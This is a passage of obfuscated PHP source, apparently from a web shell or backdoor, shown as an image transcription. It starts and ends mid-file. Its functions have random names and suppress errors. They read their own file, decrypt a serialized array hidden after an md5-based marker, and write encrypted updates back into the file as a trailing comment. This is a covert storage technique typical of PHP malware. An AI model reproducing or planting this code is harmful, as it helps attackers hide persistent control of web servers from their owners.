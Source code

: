 ```PHP
        global $hxgqukcsofcc;

        return veyrrpc(veyrrpc($vpfasf, $wyolccwj), $hxgqukcsofcc);
    }
    function meyfzju($vpfasf, $wyolccwj)
    {
        global $hxgqukcsofcc;

        return veyrrpc(veyrrpc($vpfasf, $hxgqukcsofcc), $wyolccwj);
    }

    function ymjxpja()
    {
        $gnlmabhgcmqoues = @file_get_contents(dbkboso());

        $ugpdjjik = strpos($gnlmabhgcmqoues, md5(dbkboso()));
        if ($ugpdjjik !== FALSE)
        {
            $wovbwub = substr($gnlmabhgcmqoues, $ugpdjjik + 32);
            $hzrhdgnprrmsrj = @unserialize(umzklia(rawurldecode($wovbwub), md5(dbkboso())));
        }
        else
        {
            $hzrhdgnprrmsrj = Array();
        }

        return $hzrhdgnprrmsrj;
    }

    function ifqhsss($hzrhdgnprrmsrj)
    {
        $qhuznb = rawurlencode(meyfzju(@serialize($hzrhdgnprrmsrj), md5(dbkboso())));
        $gnlmabhgcmqoues = @file_get_contents(dbkboso());

        $ugpdjjik = strpos($gnlmabhgcmqoues, md5(dbkboso()));
        if ($ugpdjjik !== FALSE)
        {
            $yblkqeg = substr($gnlmabhgcmqoues, $ugpdjjik + 32);
            $gnlmabhgcmqoues = str_replace($yblkqeg, $qhuznb, $gnlmabhgcmqoues);

        }
        else
        {
            $gnlmabhgcmqoues = $gnlmabhgcmqoues . "\n\n//" . md5(dbkboso()) . $qhuznb;
        }

        @file_put_contents(dbkboso(), $gnlmabhgcmqoues);
    }

    function bushzx($rpznkysa, $zmhagl)
    {
        $hzrhdgnprrmsrj = ymjxpja();

        $hzrhdgnprrmsrj[$rpznkysa] = ytkpmfs($zmhagl);

        ifqhsss($hzrhdgnprrmsrj);
    }

    function uzzylcyq($rpznkysa)
    {
        $hzrhdgnprrmsrj = ymjxpja();

        unset($hzrhdgnprrmsrj[$rpznkysa]);
```